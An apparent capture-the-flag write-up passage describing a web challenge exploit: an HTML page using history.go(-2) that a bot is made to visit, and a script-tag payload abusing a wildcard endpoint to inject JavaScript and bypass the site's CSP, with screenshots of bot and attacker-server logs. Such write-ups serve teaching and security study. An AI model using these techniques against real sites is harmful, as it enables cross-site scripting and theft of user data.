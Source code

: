 ```html=
<!-- goback.html -->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Go Back</title>
</head>
<body>
  <script>
    window.addEventListener('DOMContentLoaded', () => {
      history.go(-2);
    });
  </script>
</body>
</html>
```

Testing it with the `bot.js` provided in the source code and using the `visit?url=http://127.0.0.1:1337/test.html`

![](https://i.imgur.com/kcJpQaf.png)

> The bot visiting the payload.

![](https://i.imgur.com/sLQCZng.png)

> Response from the server


![](https://i.imgur.com/RSGFd8y.png)
> Attacker Server logs


#### Part2

We have the note, which we can use to run the payload to extract the `noteID`. What remains now is the ability to add JS code in the note and bypass CSP.

This is where the `*` end-point will come in handy. We will use `srcipt-src` in the note itself, to run run JS.

```javascript!
<script src="http://127.0.0.1/somethingxyz/,alert(String.fromCharCode(72,101,108,108,111))"></script>

```

![](https://i.imgur.com/PhYF9fQ.png)

![](https://i.imgur.com/5hAOz2r.png)


![](https://i.imgur.com/SIgd4Ur.png)
